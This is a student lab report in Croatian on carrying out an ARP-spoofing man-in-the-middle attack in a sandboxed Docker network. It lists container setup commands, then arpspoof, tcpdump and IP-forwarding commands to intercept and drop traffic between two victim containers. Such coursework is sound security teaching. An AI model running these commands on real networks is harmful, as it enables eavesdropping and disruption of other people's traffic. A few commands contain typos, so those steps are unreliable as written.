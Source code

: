 # Izvještaj laboraotrijskih vježbi

# 1. Laboratorijska vježba

12.10.2021.

## Zadatak

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP protokola. 

Student će testirati napad u virtualiziranoj Docker mreži (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container):

- dvije žrtve station-1
- station-2
- napadač evil-station.

## Upoznavanje sa alatima

**Kloniranje repozitorija**

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

**Promjena radnog direktorija**

```bash
$ cd SRP-2021-22/arp-spoofing
```

**Buildanje i pokretanje docker kontejnera**

```bash
$ chmod +X ./start.sh
$ ./start.sh
```

**Zaustavljanje docker kontejnera**

```bash
$ chmod +X ./stop.sh
$ ./stop.sh
```

**Izlist pokrenutih kontejnera**

```bash
$ docker ps
```

```
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
7142ae607cb3   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-2
c810f9effdb1   srp/arp   "bash"    4 minutes ago   Up 4 minutes             evil-station
cec29037dbe5   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-1
---------------------------------------------------------------------------------------
```

**Pokretanje interaktivnog shella u `station-1` kontejneru**

```bash
$ docker ps exec -it sh
```

**Dohvaćenje konfiguracije mrežnog interfejsa**

```bash
$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.24.0.2  netmask 255.255.0.0  broadcast 172.24.255.255
        ether 02:42:ac:18:00:02  txqueuelen 0  (Ethernet)
        RX packets 68  bytes 8291 (8.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Informacije koje dobivamo su:

- IP adresa: 172.24.0.2
- adresa mrežnog uređaja:  02:42:ac:18:00:02

**Provjerimo nalazi li se `station-2` na istoj mreži**

```bash
$ ping station-2
```

```
PING station-2 (172.24.0.4) 56(84) bytes of data.
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=1 ttl=64 time=0.404 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=2 ttl=64 time=0.164 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=3 ttl=64 time=0.147 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=4 ttl=64 time=0.093 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=5 ttl=64 time=0.154 ms
```

**Pokretanje interaktivnog shella u `station-2` kontejneru**

```bash
$ docker exec -it station-2 sh
```

**Na kontejneru `station-1` pomoću netceta otvaramo server TCP socket na portu 9000**

```bash
$ netcat -lp 9000
```

**Na kontejneru `station-2` pomoću netcata otvaramo client TCP socket na hostnameu `statio-1` 9000**

```bash
$ netcat station-1 9000
```

**Pokretanje interaktivnog shella u `evil-station` kontejneru**

```bash
$ docker exec -it evil-station sh
```

## Izvršavanje napada

**U kontejneru `evil-station` pokrećemo arpspoof**

```bash
$ arpspoof -t station-1 station-2
```

**Pokrećemo tcpdump u kontejneru `evil-station` i pratimo promet**

```bash
$ tcpdump
```

**Gasimo prosljeđivanje spoofanih paketa**

```bash
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```